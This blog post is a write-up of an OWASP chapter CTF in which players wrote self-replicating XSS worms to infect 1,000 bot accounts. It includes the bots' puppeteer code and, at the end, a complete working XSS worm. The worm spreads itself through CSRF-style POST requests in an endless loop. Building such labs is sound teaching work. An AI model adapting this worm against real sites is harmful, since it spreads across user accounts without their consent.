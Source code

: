 ```yaml
---
layout: post
title: "XSSworm.dev ~ Self-replication contest [write-up]"
date: 2020-12-01 00:00:00 -0000
categories: ['Ethical hacking', 'Tools']
tags: [XSS, worm]
author: vavkamil
---
```


tl;dr: I created "CTF" style challenge for our **[OWASP Czech Chapter Virtual Meeting](https://www.meetup.com/owasp-czech-republic-meetup-group/events/274616231/)**. The goal was to write an XSS worm and score points by infecting 1k virtual users. You can find the source code [here](https://github.com/vavkamil/XSSworm.dev) and read the details in this post.

---

When the whole covid-19 thing started, I was somehow interested in looking at various coronavirus world maps and watching the exponential growth of the pandemic unfold. It reminded me of the (in)famous MySpace; "[Samy worm](https://samy.pl/myspace/tech.html)" by [Samy Kamkar](https://en.wikipedia.org/wiki/Samy_Kamkar). For those of you who never heard about it, it was the first publicly released self-propagating cross-site scripting worm, onto MySpace, in 2005. The worm was able to infect over one million users had run the payload in one day.

Since then, we have seen some other XSS worms, for example, on Yahoo, Twitter or Orkut. But nothing at the scale of The MySpace worm.

In 2008, [@RSnake](https://twitter.com/rsnake?lang=en) published "*[Diminutive XSS Worm Replication Contest](https://web.archive.org/web/20080210014614/http://sla.ckers.org/forum/read.php?2,18790,18790)*" on sla.ckers.org. It was an awesome idea, but there was some [backslash](https://forums.theregister.com/forum/all/2008/01/05/worm_replication_contest/) as well :(

But why am I talking about this? Well, in 2008, I was 16 years old. I knew only the basic English, but I was lucky enough to be mentored by the best hackers in the Czechia at the time. Couple of months after the RSnake's contest, one member of our community took the idea and created an interface where we could test our XSS worms and compete with others. It looked like this:

![](/assets/img/2020/12/skola.png)

There were 200 bot accounts and we (~4 people) scored points by infecting them with our worms and marking them with our color & nick via CSRF. You can still find the pieces of the original web archived [here](https://web.archive.org/web/20080320190901/http://xsscontest.xf.cz/?action=stats&PHPSESSID=e8b6a4ab2a69f128ed44fa933bb7584e) and the XSS worm source [here](https://web.archive.org/web/20080717202916/http://skola.security-portal.cz/[4194]-XSS-CONTEST-WARRIOR_0x13.txt). It may sound weird, but this "contest", writing XSS worms and payloads to steal cookies, is one of my happiest childhood memories :)

So one evening, when I was checking the coronavirus map, I had a big flashback and immediately started coding the remastered version. The things is, I'm not a developer, so it took quite some time. In May 2020, I had a working Proof of Concept, which looked like this:

![](/assets/img/2020/12/challenge-poc.png)

At that point, I realized that it's *scalable* and I might be able to pull it off and write a CTF style contest for our upcoming OWASP Czech Chapter meeting. I did some research and decided to go with a simple Python Flask application and a cluster of puppeteer workers for the bots.

Then the situation with covid got worse, and we had to postpone the OWASP meeting. We had to postpone multiple times and eventually cancel the whole thing because of the lockdown. On the bright side, I had plenty of time for coding and polishing. So how does it work?

![](/assets/img/2020/12/web.png)

It's somehow simple. The user will register with the nickname and team color. They are then presented with a simple interface to send messages to bots. But here is a catch, each user has a limit of 13 messages which could be sent. Based on the swagger documentation, they need to write the XSS worm, which will leverage two CSRFs. One to change the bot's color and the other to self propagate via the bot's unlimited private messages. The point of a limited number of messages is to force the users to design an efficient infection algorithm, which will spread exponentially.

There is a grid of 1k boxes, which helps to visualize the bots. If they are infected, and by whom. Users are scoring points by infecting and reinfecting the bots and marking them with their team color.

![](/assets/img/2020/12/example.png)

The puppeteer cluster is then reading the last received messages of each bot in a random sequence every X minutes. The cluster code looks like this, it's just going through the array in random order, authenticated with cookies:

```
const { Cluster } = require('puppeteer-cluster');

(async () => {
  const cluster = await Cluster.launch({
    concurrency: Cluster.CONCURRENCY_CONTEXT,
    maxConcurrency: 5,
    // puppeteerOptions: { headless: false },
    // puppeteerOptions: { args: ['--no-sandbox'] },
    timeout: 666,
    monitor: true,
  });

  await cluster.task(async ({ page, data }) => {
    const { url, id } = data;
    await page.setCookie({
      'value':id,
      'domain': 'xssworm.dev',
      'expires': Date.now() / 1000 + 10,
      'name': '31p475~Yr37748-35r0h~7c3rr0C-ID',
      'httpOnly': true
    });
    await page.setCookie({
      'value':'correct-horse-battery-staple',
      'domain': 'xssworm.dev',
      'expires': Date.now() / 1000 + 10,
      'name': 'secret',
      'httpOnly': true
    });
    await page.goto(url);
    await page.waitFor(666);
    //const screen = await page.screenshot();
    // Store screenshot, do something else
  });

  var array = Array.from({length: 1001}, (_, i) => [i, Math.random()]).sort((a, b) => a[1] - b[1]).map(([n, r]) => n)
  for (var i = 0; i < array.length; i++) {
    //console.log(array[i]);
    var url = "https://xssworm.dev/read-message?id="+array[i];
    cluster.queue({url, id:""+array[i]+""});
  // many more pages
  }

  await cluster.idle();
  await cluster.close();
})();
```

There are some basic rules for users. They should be able to write the self-propagating code in just 13 tries. Once their worm hits exponential growth, they should be able to infect most of the victims.

![](/assets/img/2020/12/rules.png)

After the registration, users are presented with [Swagger documentation](https://editor.swagger.io/?url=https://raw.githubusercontent.com/vavkamil/XSSworm.dev/main/static/swagger.yaml). They were supposed to write a code, which will send two POST requests, one to change to the color of the victim, the other to replicate its code and spread to another victim. The tricky part was *application/x-www-form-urlencoded*, as most of the contestants struggled to get the encoding right, so either the '+' sign was stripped, or the '#' representing hex value of the color was double encoded.

![](/assets/img/2020/12/swagger.png)

Only one player was able to write the functional self-spreading XSS worm in time and eventually won the whole competition. They designed three different algorithms, as they could register again and resend the updated version to 13 victims.

![](/assets/img/2020/12/interface.png)

There is a lot of things to improve in my code. I used a rather strict Content Security Policy. The whole deployment should be in docker. I was even thinking about implementing CSRF tokens and Twitter OAuth. For more experienced users, XSS protection to bypass would be ideal. The one thing that I struggled with the most was how to prevent a race condition and how to protect the number of messages that the user can send :( But anyway, I'm glad that people enjoyed the challenge, even in those hard times.

Here you can check my Proof of Concept of the worm:

```
<script id="xss_worm">

	// XSS worm .dev
	// Self-replication contest
	// Proof of Concept v1.0

	var victims = 1000;
	var team_color = "#550bb1";
	var url = "https://xssworm.dev";
	var infection_code = "<script id=\"xss_worm\">"+self_propagation()+"<\/script>";

	infect_victim(team_color);

	while (true) {
		var victim_id = get_random_victim(victims);
		spread_infection(victim_id,infection_code);
	}

	function get_random_victim(accounts_count) {
		return Math.floor((Math.random() * accounts_count) + 1);
	}

	function infect_victim(color) {
		var xhr = new XMLHttpRequest();
		var params = "color="+color;
		xhr.open("POST", url+"/update", true);
		xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
		xhr.send(params);
	}

	function self_propagation(){
		return document.getElementById("xss_worm").innerHTML;
	}

	function spread_infection(id,infection_code) {
		var xhr = new XMLHttpRequest();
		var params = "id="+id+"&msg="+encodeURIComponent(infection_code);
		xhr.open("POST", url+"/send-message", true);
		xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
		xhr.send(params);
	}

</script>
```

You can check and try [the website](https://xssworm.dev), as I will keep the infrastructure alive for a while, or you can deploy it locally, as the whole thing is open-source. I'm a little bit ashamed of my programming skills, but here you go: [https://github.com/vavkamil/XSSworm.dev](https://github.com/vavkamil/XSSworm.dev)
